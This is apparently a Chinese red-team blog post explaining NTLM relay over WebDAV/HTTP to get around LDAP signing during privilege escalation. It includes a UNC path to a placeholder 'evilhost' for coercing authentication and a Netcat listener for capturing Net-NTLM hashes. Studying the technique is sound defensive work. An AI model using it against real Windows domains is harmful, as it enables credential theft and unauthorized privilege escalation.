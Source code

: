 ```yaml
---
title: Privilege Escalation - NTLM Relay over HTTP (Webdav)
date: 2022-05-02 16:25:00 +0800
author: WHOAMI
toc: true
categories: ["Windows Security"]
tags: ["Active Directory", "NTLM Relay", "Webdav"]
layout: post  
---
```


很多时候，NTLM Relay 并没有我们想象的那么完美。例如，在对 LDAP/s 这种协商签名的服务执行 NTLM Relay 时，如果在 Net-NTLM Hash 交换期间设置了协商签名标志，则目标服务器将忽略未签名的消息，从而导致攻击失败。幸运的是，并非所有客户端都设置了协商签名标志，如果客户端不支持签名，那么服务器是不会强制签名的。



在强制身份验证中，有很多服务可以支持身份验证，最常利用的服务可能就是 SMB 了。但是，从近几年攻击的角度来看，很多时候 SMB 协议并不理想。因为 SMB 协议将导致协商签名的服务器对 NTLM 认证请求强制签名，最终导致攻击失败。因此，越来越多的黑客将利用的角度转向了那些不支持签名的客户端，例如 HTTP，最常见的就是臭名昭著的 WebDAV。

## Webdav

WebDAV（Web-based Distributed Authoring and Versioning，基于 Web 的分布式编写和版本控制）是一种基于 HTTP 的通信协议。它扩展了 HTTP，在 GET、POST、HEAD 等几个 HTTP 标准方法以外添加了一些新的方法，使应用程序可对 Web Server 直接读写，并支持写文件锁定（Locking）及解锁（Unlock），还可以支持文件的版本控制。WebDAV 有利于用户间协同编辑和管理存储在万维网服务器文档。

Windows 使用 WebClient 服务实现 WebDAV，允许 Windows 应用程序通过使用 WebDAV 来创建、读取和写入 Internet 文件服务器上的文件，并使用 HTTP 进行通信。如果停止该服务，这些功能将不再可用；如果该服务被禁用，那么以来该服务的其他服务将无法启动。

## Coercing Authentication From Webdav

在强制身份验证中，我们可以通过 WebDAV 代替 SMB，并通过以下格式的 UNC 路径访问攻击者的 HTTP 服务器：

```python
\\evilhost@80\webdav\test.txt
```

尽管这种路径与 SMB 协议中默认的 UNC 路径差别很小，但带来的影响非常巨大。效果上最明显的区别在于，客户端不再使用 SMB 协议，而是会使用 HTTP 协议（WebDAV），从而在 Relay To LDAP/s 中绕过签名。并且，这样做还有一个好处就是攻击者的 HTTP 服务器可以在任何端口上运行，从红队的角度来看，这提供了很大的灵活性，其允许我们避免处理已经绑定的 SMB 端口。

当对启用 WebDAV 的 UNC 路径触发文件操作时，客户端主机将与 WebDAV 服务器执行如下交互过程：


1. 客户端发出一个 OPTIONS 方法来发现服务器支持的请求方法。
2. 如果支持 PROPFIND 方法，则发出 PROPFIND 请求来发现目录结构。
3. 如果服务器以 401 Unauthorized 响应并通过 WWW-Authenticate 标头请求 NTLM 身份验证，则 WebDAV 将继续启动 NTLM 质询响应身份验证，最终将 Net-NTLM Hash 提供给服务器。

为了更加直观，我们可以使用 Netcat 在攻击者的机器上启动一个 Socket 监听，例如监听本地 TCP 80 端口，如下图所示。

![](/assets/posts/2022-05-02-privilege-escalation-ntlmrelay2self-over-http-webdav/image-20220514234016724.png)
